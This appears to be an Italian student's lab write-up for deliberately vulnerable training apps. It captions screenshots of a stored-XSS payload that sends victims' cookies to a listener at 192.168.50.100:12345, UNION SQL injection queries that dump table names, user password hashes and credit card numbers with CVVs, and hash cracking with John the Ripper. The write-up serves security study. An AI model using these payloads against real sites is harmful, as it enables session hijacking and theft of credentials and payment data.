 # Screen_1:
utilizzando questo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> nell XSS stored possiamo ottenere il cookie dell utente
# Screen_2:
per utilizzare lo script bisogna prima modificare la lunghezza massima dei caratteri
# Screen_3:
utilizzando questa query %' and 1=0 union select null, table_name from information_schema.tables # in SQL Injection possiamo vedere tutte le tabelle presenti
# Screen_4:
utilizzando questa query %' and 1=0 union select table_name, column_name from information_schema.columns where table_name = 'users' # possiamo vedere tutte le colonne presenti nella tabella users
# Screen_5:
utilizzando questa query 1' union select user, password from users# possiamo vedere tutti gli username e password degli utenti solo che lo password sono sottoforma di hash
# Screen_6:
utilizzando john the ripper possiamo decifrare le password facilmente
# Screen_7:
utilizzando questa query %' union select ccnumber, expiration from owasp10.credit_cards# possiamo vedere tutti gli ccnumber e le date di scadenza delle carte, per trovare il database abbiamo usato una query con information_schema e da li abbiamo trovato anche la tabella delle credit card
# Screen_8:
invece utilizzando questa query %' union select ccnumber, ccv from owasp10.credit_cards# possiamo vedere anche il CCV cosi da avere tutti i dati per le carte di credito
# Screen_9:
utilizzando questo script 1<script>alert(document.cookie)</script> in SQL Injection (blind) ci apre un pop up con il cookie cio significa che ce anche una vulnerabilità di tipo XSS
# Screen_10
utilizzando questa query 1 OR 1 = 1 UNION SELECT user, password FROM users si riesce a vedere gli username e password anche con il livello a medium

